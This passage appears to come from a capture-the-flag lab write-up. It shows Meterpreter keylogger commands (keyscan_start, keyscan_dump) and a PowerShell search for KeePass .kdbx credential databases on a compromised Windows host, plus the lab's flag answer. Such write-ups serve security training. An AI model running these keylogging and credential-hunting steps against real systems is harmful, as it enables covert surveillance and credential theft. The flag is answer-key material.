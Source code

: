	* Confirm that we are now running in the context of our target
	
		`getuid`

		![task5-getuid](./images/task5-getuid.png)

	* Now we are ready to start our keylogger
	
		`keyscan_start`

		![task5-keyscan](./images/task5-keyscan.png)

	* Wait for a couple of minutes, and then run the following to dump captured keystrokes
	
		`keyscan_dump`

		![task5-keydump](./images/task5-keydump.png)

* What is the value of the flag stored in the credential database?

	`THM{AD.Users.Can.Give.Up.Good.Secrets}`

	* Find file `.kdbx`
	
		```
		Get-Childitem -Path C:\ -Include *.kdbx -Recurse -ErrorAction SilentlyContinue
		```

		![task5-kdbx](./images/task5-kdbx.png)
